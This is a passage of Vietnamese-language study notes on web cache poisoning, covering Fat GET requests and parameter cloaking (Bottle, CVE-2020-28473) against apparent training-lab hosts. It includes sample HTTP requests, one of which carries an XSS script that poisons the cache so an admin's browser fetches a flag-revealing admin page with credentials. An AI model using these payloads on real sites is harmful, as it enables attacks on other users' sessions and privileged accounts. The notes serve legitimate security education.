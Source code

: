 #### **Ví dụ Khai Thác Fat GET:**
1. **Xác định lỗi:**
   - Gửi một yêu cầu Fat GET để kiểm tra liệu server có xử lý các tham số từ body không.  
     **Payload mẫu:**
     ```plaintext
     GET /index.php?language=en HTTP/1.1
     Host: fatget.wcp.htb
     Content-Length: 11
     language=de
     ```
   - Nếu phản hồi hiển thị nội dung bằng tiếng Đức (German) thay vì tiếng Anh (English), máy chủ xử lý tham số từ request body.

2. **Poison Cache:**
   - Gửi yêu cầu Fat GET chứa payload độc hại.  
     **Payload mẫu:**
     ```plaintext
     GET /index.php?language=de HTTP/1.1
     Host: fatget.wcp.htb
     Content-Length: 142
     ref="><script>var xhr = new XMLHttpRequest();
     xhr.open('GET', '/admin.php?reveal_flag=1', true);
     xhr.withCredentials = true;
     xhr.send();</script>
     ```
   - Yêu cầu trên sẽ chèn payload XSS vào cache. Khi admin truy cập, payload sẽ tự động thực thi, gửi yêu cầu để lộ flag.

#### **Lưu ý:**
- Fat GET thường do lỗi cấu hình trên phần mềm máy chủ web, không phải do ứng dụng web.

---

### **2. Parameter Cloaking**

#### **Khái niệm:**
- **Parameter Cloaking** khai thác sự khác biệt trong cách phân tích tham số giữa web cache và máy chủ web.
- Khi web cache và máy chủ xử lý các tham số GET khác nhau, kẻ tấn công có thể tạo ra sự sai lệch để khai thác lỗ hổng.

#### **Ví dụ Khai Thác:**
1. **Khai thác lỗi Parameter Cloaking trong Bottle Framework (CVE-2020-28473):**
   - Bottle sử dụng ký tự **semicolon (;)** để phân tách tham số, trong khi web cache không xử lý ký tự này.
   - Gửi yêu cầu:  
     ```plaintext
     GET /?language=en&a=b;language=de HTTP/1.1
     Host: cloak.wcp.htb
     ```
   - **Phân tích:**  
     - **Web cache:**  
       - Tham số: `language=en`, `a=b;language=de`.  
       - Lưu phản hồi dựa trên `language=en`.  
     - **Bottle server:**  
       - Tham số: `language=en`, `a=b`, `language=de`.  
       - Giá trị cuối cùng của `language` là `de`, phản hồi bằng tiếng Đức.
